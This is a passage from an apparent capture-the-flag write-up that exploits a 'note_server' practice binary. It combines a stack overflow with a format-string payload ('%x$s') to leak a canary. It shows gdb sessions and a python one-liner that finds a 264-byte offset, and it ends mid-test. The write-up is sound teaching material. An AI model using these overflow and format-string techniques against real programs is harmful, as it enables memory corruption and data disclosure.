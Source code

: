 1. Find a way to stack overflow and overwrite exactly at our canary position with a format string.
2. Choose a format string that displays a string from the stack at some offset. We can use `%x$s` for this.

Ok first we need to find a stack overflow, the binary is simple so its probably in the `Read note` option. Instead of parsing the Ghidra code i just tried this:

```shell
gdb-peda$ r
Starting program: note_server 
================================
Welcome to note server 2021
Now with stack canaries!!!
================================

1. Write note
2. Read note
3. Exit
> 1
Choose a note [0 - 7]: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1. Write note
2. Read note
3. Exit
> 2
Choose a note [0 - 7]: 0


1. Write note
2. Read note
3. Exit
> 3
Overflow attempt. Canary value > AAAAAAAA
```

Ok cool so we know we can control the Canary that gets printed. We need to know where in our string that happens. I tried using `peda` `pattern_create` for this but because it creates strings that have `%` in them it doesn't work for this purpose. I just manually crafted some long strings instead.

With some trial and error I found the offset to be 264 bytes. I generated these strings with some python command line:

```shell
$ python -c 'print(("A" * 264) + "BBBB")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
$ ./note_server
================================
Welcome to note server 2021
Now with stack canaries!!!
================================

1. Write note
2. Read note
3. Exit
> 1
Choose a note [0 - 7]: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

```